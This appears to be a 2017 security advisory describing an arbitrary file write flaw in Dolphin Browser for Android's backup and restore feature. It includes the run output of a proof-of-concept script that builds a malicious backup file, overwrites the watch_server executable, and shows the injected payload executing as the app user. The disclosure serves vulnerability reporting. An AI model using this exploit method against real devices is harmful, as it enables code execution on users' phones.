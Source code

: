 ### [VS-2017-001] Dolphin Browser Backup & Restore Arbitrary File Write Vulnerability

```
Download: https://play.google.com/store/apps/details?id=mobi.mgeek.TunnyBrowser&hl=en
Author: Benjamin Watson of VerSprite Security
Affected: < 12.0.2
```

#### Vulnerability Details

The Backup and Restore feature in Mobotap's Dolphin Browser for Android 12.0.2, suffers from an arbitrary file write vulnerability when attempting to restore browser settings from a malicious Dolphin Browser backup file. This arbitrary file write vulnerability, allows an attacker to overwrite a specific executable in the Dolphin Browser's data directory with a crafted malicious executable. Every time the Dolphin Browser is launched, it will attempt to run the malicious executable from disk, thus executing the attacker's code.

#### Exploitation

Exploitation occurs when the arbitrary file write is used to overite the `/files/watch_server` executable with a crafted payload.  Once the **Dolphin Browser** is launched, it will always attempt to execute the `watch_server` from disk.

```bash
./build.sh                                                                                                                                                                              130 ↵
[+] Building ... [!]
[armeabi-v7a] Install        : payload => libs/armeabi-v7a/payload
[+] Creating tmp.zip and injecting payload [!]
[+] Launching backup file format generation [!]
[+] Generating cipher [!]
[+] key --> 95acde261f3e09d281498163958dd366
[+] Building backup  --> ./backup.dbk [!]
[+] Encrypting and saving backup [!]
[+] Cleaning up [!]
[+] Pushing backup.dbk to the device [!]
backup.dbk: 1 file pushed. 0.6 MB/s (13926 bytes in 0.024s)
[+] Waiting on restore process ... [!]
--------- beginning of system
--------- beginning of main
V/FlipperFlapper(31220): uid=10177(u0_a177) gid=10177(u0_a177) groups=1015(sdcard_rw),1028(sdcard_r),3003(inet),9997(everybody),50177(all_a177) context=u:r:untrusted_app:s0
```
